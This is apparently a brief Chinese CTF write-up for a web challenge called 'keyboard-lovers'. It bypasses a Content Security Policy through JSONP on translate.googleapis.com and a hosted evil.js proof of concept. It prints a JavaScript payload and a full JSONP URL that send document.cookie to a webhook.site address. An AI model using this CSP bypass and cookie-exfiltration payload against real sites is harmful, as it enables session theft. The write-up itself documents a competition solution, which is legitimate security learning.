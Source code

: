# web

### keyboard-lovers

#csp

```
default-src 'none'; script-src https://*.googleapis.com 'sha256-FlG9O9q1cgn5OYucapSvUz43B/tZq3UVDljeyRiVWvs='; style-src https://cdn.jsdelivr.net https://*.googleapis.com 'unsafe-inline'; img-src 'self'; connect-src 'self';font-src https://fonts.gstatic.com; form-action 'self'; block-all-mixed-content;
```

限制了引用的脚本来源为*.googleapis.com

storage.googleapis.com可以任意上传文件，但是需要信用卡，只能给个poc
https://storage.googleapis.com/bg-common/samples/evil.js

translate.googleapis.com支持jsonp，可以xss

```
location.href=('https://webhook.site/?flag=_'.replace('_',document.cookie));
```

https://translate.googleapis.com/$discovery/rest?callback=location.href=(%27https://webhook.site/YOUR_UNIQUE_URL?flag=_%27.replace(%27_%27,document.cookie));


# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2025-03-24   18:31